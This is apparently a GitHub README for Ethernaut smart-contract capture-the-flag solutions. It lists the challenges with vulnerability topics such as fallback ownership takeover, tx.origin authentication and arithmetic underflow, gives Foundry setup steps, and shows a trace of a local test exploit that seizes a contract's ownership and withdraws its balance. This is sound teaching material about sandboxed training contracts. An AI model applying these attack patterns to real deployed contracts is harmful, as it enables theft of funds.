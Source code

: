 # 🔐 Ethernaut CTFs challenges and solutions
Inspired by [ethernaut-x-foundry](https://github.com/ciaranmcveigh5/ethernaut-x-foundry)

## 🛡 Challenges

| N° | Name | Challenge | Solution | Topic |
| -- | ---- | --------- | -------- | ----- |
| 01 | Fallback | [link](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) | [link](https://github.com/leovct/ethernaut/blob/main/test/FallbackExploit.t.sol#L27) | Fallback function |
| 02 | Fallout | [link](https://ethernaut.openzeppelin.com/level/0x40F5513a90fb7e2ac2C3E12A6d16B9279D1e94Ed) | [link](https://github.com/leovct/ethernaut/blob/main/test/FalloutExploit.t.sol#L27) | Typo |
| 03 | CoinFlip | [link](https://ethernaut.openzeppelin.com/level/0xae9677ff69efB3C1B9559C8F2A9ED6a2212148e3) | [link](https://github.com/leovct/ethernaut/blob/main/test/CoinFlipExploit.t.sol#L31) | Pseudo-randomness using block.number and block.timestamp |
| 04 | Telephone | [link](https://ethernaut.openzeppelin.com/level/0x466BDd41a04473A01031C9D80f61A9487C7ef488) | [link](https://github.com/leovct/ethernaut/blob/main/test/TelephoneExploit.t.sol#L35) | Authentication using tx.origin instead of msg.sender |
| 05 | Token | [link](https://ethernaut.openzeppelin.com/level/0xDc0c34CFE029b190Fc4A6eD5219BF809F04E57A3) | [link](https://github.com/leovct/ethernaut/blob/main/test/TokenExploit.t.sol#L31) | Arithmetic underflow / owerflow |
| ... | ... |
| 21 | Good Samaritan |

## 📌 Set up the project
- Install [Foundry](https://github.com/foundry-rs/foundry#installation)
- Create a new project: `$ forge init`
- Install libraries:
    - Ethernaut challenges: `$ forge install openzeppelin/ethernaut`
    - OpenZeppelin standard contracts: `$ forge install openzeppelin/openzeppelin-contracts@release-v3.4`
- Edit `foundry.toml` and fill in the correct remappings
```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']
remappings = [
    'forge-std/=lib/forge-std/src/',
    'ethernaut/=lib/ethernaut/contracts/',
    '@openzeppelin/=lib/openzeppelin-contracts/',
]
# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```

## 🧪 Run the exploits

### 1. Run a specific test
```sh
$ forge test --match-contract FallbackExploit -vvvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Logs:
  Fallback contract owner: 0x185a4dc360ce69bdccee33b3784b0282f7961aea
  New Fallback contract owner: 0x0000000000000000000000000000000000000539
  Exploiter address: 0x0000000000000000000000000000000000000539
  Fallback contract balance: 2
  New Fallback contract balance: 0

Traces:
  [788447] FallbackExploit::testExploit() 
    ├─ [396946] → new FallbackFactory@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: FallbackExploit: [0xb4c79daB8f259C7Aee6E5b2Aa729821864227e84])
    │   └─ ← 1864 bytes of code
    ├─ [24632] Ethernaut::registerLevel(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000539) 
    │   └─ ← ()
    ├─ [257980] Ethernaut::createLevelInstance(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   ├─ [211011] FallbackFactory::createInstance(0x0000000000000000000000000000000000000539) 
    │   │   ├─ [178499] → new Fallback@0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067
    │   │   │   └─ ← 670 bytes of code
    │   │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    │   ├─ emit LevelInstanceCreatedLog(player: 0x0000000000000000000000000000000000000539, instance: Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067])
    │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    ├─ [22687] Fallback::contribute{value: 1}() 
    │   └─ ← ()
    ├─ [427] Fallback::contributions(0x0000000000000000000000000000000000000539) [staticcall]
    │   └─ ← 1
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]
    ├─ emit log_named_address(key: Fallback contract owner, val: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    ├─ [514] Fallback::fallback{value: 1}() 
    │   └─ ← ()
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ emit log_named_address(key: New Fallback contract owner, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_address(key: Exploiter address, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_uint(key: Fallback contract balance, val: 2)
    ├─ [7277] Fallback::withdraw() 
    │   ├─ [0] 0x0000000000000000000000000000000000000539::fallback{value: 2}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_named_uint(key: New Fallback contract balance, val: 0)
    ├─ [4273] Ethernaut::submitLevelInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]) 
    │   ├─ [1279] FallbackFactory::validateInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067], 0x0000000000000000000000000000000000000539) 
    │   │   ├─ [359] Fallback::owner() [staticcall]
    │   │   │   └─ ← 0x0000000000000000000000000000000000000539
    │   │   └─ ← true
    │   ├─ emit LevelCompletedLog(player: 0x0000000000000000000000000000000000000539, level: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    │   └─ ← true
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 424.83µs
```

### 2. Run all the tests
```sh
$ forge test
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Test result: ok. 1 passed; 0 failed; finished in 401.67µs

Running 1 test for test/FalloutExploit.sol:FalloutExploit
[PASS] testExploit() (gas: 767402)
Test result: ok. 1 passed; 0 failed; finished in 400.21µs
```

## Lint the files using [Solhint](https://github.com/protofire/solhint)
`$ solhint 'src/*.sol' 'test/*.t.sol'`
